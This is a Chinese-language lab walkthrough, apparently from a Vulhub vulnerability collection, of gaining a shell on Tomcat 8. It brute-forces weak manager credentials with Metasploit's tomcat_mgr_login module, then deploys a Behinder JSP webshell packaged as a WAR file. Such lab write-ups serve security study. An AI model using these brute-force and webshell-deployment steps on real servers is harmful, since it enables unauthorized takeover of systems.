






Tomcat8 弱口令+后台getshell漏洞¶
漏洞描述¶
Tomcat支持在后台部署war文件，可以直接将webshell部署到web目录下。其中，欲访问后台，需要对应用户有相应权限。
Tomcat7+权限分为：
- manager（后台管理）
- manager-gui 拥有html页面权限
- manager-status 拥有查看status的权限
- manager-script 拥有text接口的权限，和status权限
- manager-jmx 拥有jmx权限，和status权限
- host-manager（虚拟主机管理）
- admin-gui 拥有html页面权限
- admin-script 拥有text接口权限
这些权限的究竟有什么作用，详情阅读 http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html
在conf/tomcat-users.xml文件中配置用户的权限：
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
version="1.0">
<role rolename="manager-gui"/>
<role rolename="manager-script"/>
<role rolename="manager-jmx"/>
<role rolename="manager-status"/>
<role rolename="admin-gui"/>
<role rolename="admin-script"/>
<user username="tomcat" password="tomcat" roles="manager-gui,manager-script,manager-jmx,manager-status,admin-gui,admin-script" />
</tomcat-users>
可见，用户tomcat拥有上述所有权限，密码是tomcat。
正常安装的情况下，tomcat8中默认没有任何用户，且manager页面只允许本地IP访问。只有管理员手工修改了这些属性的情况下，才可以进行攻击。
漏洞影响¶
Tomcat版本：8.0
环境搭建¶
Vulhub无需编译，直接启动整个环境：
docker-compose up -d
访问http://your-ip:8080/即可访问Apache Tomcat/8.0.43页面。
漏洞复现¶
metasploit爆破tomcat弱口令¶
访问http://your-ip:8080/，点击Manager App：

跳转tomcat管理页面http://your-ip:8080/manager/html，提示输入用户名和密码：

在kali中使用metasploit对tomcat用户名和密码进行爆破：
┌──(root kali)-[/home/kali]
└─# msfconsole
# 搜索tomcat相关模块
msf6 > search tomcat
...
23 auxiliary/scanner/http/tomcat_mgr_login normal No Tomcat Application Manager Login Utility
...
# 使用tomcat_mgr_login模块进行爆破
msf6 > use auxiliary/scanner/http/tomcat_mgr_login
# 设置服务地址
msf6 auxiliary(scanner/http/tomcat_mgr_login) >show options
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RHOSTS <your-ip>
RHOSTS => <your-ip>
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run
爆破成功，用户名密码为tomcat:tomcat：

输入弱密码tomcat:tomcat，即可访问后台。
制作war包并上传¶
首先制作war包project.war：
E:\Behinder3\server>jar -cvf project.war shell.jsp
已添加清单
正在添加: shell.jsp(输入 = 612) (输出 = 449)(压缩了 26%)
上传war包：

成功部署：

冰蝎3成功连接http://your-ip:8080/project/shell.jsp：
